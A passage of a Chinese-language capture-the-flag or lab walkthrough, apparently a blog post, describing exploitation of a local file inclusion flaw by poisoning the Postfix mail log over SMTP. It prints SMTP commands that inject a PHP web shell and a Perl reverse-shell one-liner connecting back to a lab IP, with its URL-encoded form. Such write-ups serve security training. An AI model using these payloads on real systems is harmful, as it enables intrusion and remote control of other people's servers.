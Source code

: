 页面中还包含这三个日志文件... 查看下三个日志文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqiaMjBqPVXN4tOriaM77NNP7pxsuZCCguKx8xr90PsQfwDm8xCqQNxOzA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqpFkiav4OCiaRMickuXTyiaNN3gzrwBUCzt8MIzYycnFdf2ibZFKnaNGcwDw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqYguPdUUu0MSMaGkWl3YrOpia9mOuZ4cX5kCNX3YUKcUz0P32P1s1vDA/640?wx_fmt=png)

没啥有用的信息... 通过页面存在日志文件，测试看看 case.log 是否存在...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqdBNYtloosrHCib6iadKBpW4h7r2LCofse4J491A6jZhHB2GpF5L2l4PQ/640?wx_fmt=png)

更加证实了 LFI 漏洞的存在...

二、提权

我尝试目录遍历漏洞... 尝试了../ 等等没啥用... 还在考虑如何将 php 注入到服务器中...

这边谷歌查看了下 postfix log location（日志后缀链接的位置）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqIgCc8piaLollPRLd3s0zibj9iaJN1ic33wrHh7iarFdDyf3sCz2sIWs9yEQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqPdgD80B14gawpB8CpF6sh71cx6qxAJNl8obgerHmLYibnsqJwnyyfrQ/640?wx_fmt=png)

嘿嘿... 如果能将 PHP 的 shell 代码写入日志就完美了... 继续

前面 nmap 扫描开启了 25 的 postfix smtp 服务器...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqAPfSmBoj8aAtIOUCkxdQLVU1ict6DlvJrcO2fiaFIPTuqElLM3EPqrZQ/640?wx_fmt=png)

```
1）HELO hackerman
2）MAIL FROM: "hackerman <?php echo shell_exec($_GET['cmd']);?>"
3）RCPT TO:root
4）DATA
```

通过 nc 进入到服务器的 smtp 上，然后通过命令注入 PHP...（结果很完美）

这里可以用反向 shell 来获权...

这边要对 url Encoding 有些理解就行...[链接](https://blog.csdn.net/langurisser/article/details/49160903)

这边用到了 perl 的 socket 编程...（perl 可以写 shell 我也是浏览过帖子看到的这代码，尝试后还真可以用...）

```
perl -e 'use Socket;$i="192.168.56.103";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

将上面代码随便复制黏贴在浏览器打开就能生成链接后缀了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqa1cqS0Miavl31uUUNgaQYlTzicuoSKA6LIicSPrLw6HJqrxzNky2KN7SA/640?wx_fmt=png)

生成后：

```
perl+-e+'use+Socket%3B%24i%3D"192.168.30.128"%3B%24p%3D1234%3Bsocket(S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname("tcp"))%3Bif(connect(S%2Csockaddr_in(%24p%2Cinet_aton(%24i)))){open(STDIN%2C">%26S")%3Bopen(STDOUT%2C">%26S")%3Bopen(STDERR%2C">%26S")%3Bexec("%2Fbin%2Fbash+-i")%3B}%3B'&ie=utf-8&oe=utf-8&client=firefox-b-ab
```
